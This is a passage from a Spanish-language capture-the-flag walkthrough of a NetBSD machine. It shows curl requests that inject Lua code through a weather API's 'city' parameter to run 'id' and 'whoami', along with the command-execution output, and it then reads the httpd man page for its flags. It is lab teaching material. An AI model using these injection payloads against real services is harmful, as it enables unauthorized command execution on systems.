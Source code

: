 Y vemos que si se corresponde a un `NetBSD`.


Ahora vamos a lista los procesos que se estan ejecutando en la maquina y obervamos una correspondiente al demonio de `httpd`, por el puerto `3001` que apunta a la ruta `weather`similar a la que usamos para ganar acceso al sistema.


```bash
curl -u -X -s -i "http://127.0.0.1:3000/weather/forecast?city=list'"
Enter host password for user '-X':

HTTP/1.1 500 Error
Content-Type: application/json

<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value

curl -u -X -s -i "http://127.0.0.1:3000/weather/forecast?city=list'%29%3B+os.execute%28%22id%22%29--%2B-"
Enter host password for user '-X':

HTTP/1.1 500 Error
Content-Type: application/json

{"code": 500,"error": "unknown city: listuid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
curl -u -X -s -i "http://127.0.0.1:3000/weather/forecast?city=list'%29%3B+os.execute%28%22whoami%22%29--%2B-"
Enter host password for user '-X':

HTTP/1.1 500 Error
Content-Type: application/json

{"code": 500,"error": "unknown city: list_httpd
```

Observamos que tambien podemos ejecutar comandos, pero como el mismo usuario, asi que no nos serviria hacerlo. Pero vemos que en la ejecución del comando incorpora distintos parametros y podemos ver a que corresponde en `NETBSD`.

Encontramos un articulo que nos explica a detalle el funcionamiento de los parametros.

* [https://man.netbsd.org/NetBSD-9.3/i386/httpd.8](https://man.netbsd.org/NetBSD-9.3/i386/httpd.8)

Entre los parametros que se utiliza en la petición, podemos ver que `-u`, permite la transformación de localizadores uniformes de recursos de la forma `/~user/` en el directorio `~user/public_html`.

